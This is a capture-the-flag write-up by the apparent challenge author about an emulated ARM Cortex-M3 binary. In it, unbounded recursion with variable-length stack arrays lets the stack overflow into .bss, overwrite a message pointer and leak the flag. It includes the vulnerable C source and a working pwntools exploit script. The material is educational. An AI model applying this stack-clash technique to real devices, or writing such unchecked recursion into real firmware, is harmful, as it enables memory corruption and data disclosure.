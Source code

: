 # Infinite Descent (Binary Exploitation)
> At the end lies your flag.

The challenge implements an embedded ARM program that is ran using QEMU. QEMU is configured to use the TI lm3s6965evb Cortex M3 microcontroller machine.

## Challenge
The challenge itself makes use of semihosting, a technique where a binary being emulated on a host can make requests to the host, such as requesting I/O. The challenge uses semihosting because it's quite simple and easier to implement for me and understand for solvers than setting up UART. The READ and WRITE functions are implemented with this.

The challenge is cross-compiled with GCC with a given linker script corresponding to the device and the ARM CMSIS library.

The challenge itself is as follows:
```c
char volatile* end_of_the_tunnel = "irisctf{REDACTED_REDACTED_REDA}";
char readbuf[5] = {0};
char* last_message = "(You didn't write anything)";

void descend() {
    WRITE("How many characters do you write in the ground (up to 4096)? Send exactly 4 digits and the newline.\n");
    READ(readbuf, 4 + 1);
    readbuf[4] = 0;
    long int n = strtol(readbuf, NULL, 10);
    if(n <= 0 || n > 4096) { return; }
    {
        WRITE("Send n characters and the newline.\n");
        char input[n+1];
        last_message = input;
        READ(input, (size_t)n+1);
        descend();
    }
}

int main() {
    WRITE("Welcome to my tunnel.\n");
    descend();
    WRITE("You run out of energy and pass away.\n");
    WRITE("Your final message is: ");
    WRITE(last_message);
    WRITE("\nGoodbye.\n");

    return 0;
}
```

The `main()` function prints a welcome message and calls the `descend()` function. Once it's done, it prints out the message at the `last_message` pointer, and exits.

The `descend()` function recurively takes input and puts it on the stack. It reads up to 4096 bytes at a time into a buffer which is allocated with a given size, updates the `last_message`, then calls `descend()` again.
If the given amount of input is too big or <= 0, then program returns all the way back to main.

## Solution
Notice the sections in RAM are laid out interestingly:
```
20000000 l    d  .data  00000000 .data
20000074 l    d  .bss   00000000 .bss
20000138 l    d  .heap  00000000 .heap
2000c000 l    d  .stack 00000000 .stack
```

The stack is located directly after the data, bss, and heap sections without any unmapped memory. There is no ASLR, and there's actually no code preventing the stack from running on top of other sections! This means that we can keep adding data to the stack and eventually _overflow_ on the `last_message` pointer. The flag is in a known position on ROM, so we can print it out by setting the `last_message` to its position.

Attaching a debugger to QEMU and searching memory we can find the flag is located at 0x2470, and testing input shows after 15 blocks of 4096 bytes our next block can overflow the stack section. For the final input, we choose a input number of bytes such that our pointer will be overlaid on `last_message` and is the start of the message (since the stack buffer for our input starts on top of `last_message`). Again, using a debugger is the easiest for this - send a sequence and see which address it hard faults on (or break on write to `last_message`). If the final input size is too big, the stack will fall out of RAM and cause an hard fault on write.

```py
r = # remote or process

for _ in range(15):
    r.recvuntil(b"newline.\n")
    r.sendline(b"4096")
    r.recvuntil(b"newline.")
    r.sendline(b"a" * 4096)

r.recvuntil(b".\n")
r.sendline(b"3072")
r.sendline(b"@'\x00\x00" + b"a"*3068)
r.sendline(b"0000\n")
r.interactive()

```

```
irisctf{no_protection_for_stak}
```

I should have made a sequel challenge where you buffer overflow onto a vector table and then use semihosting calls to break out of the emulator..
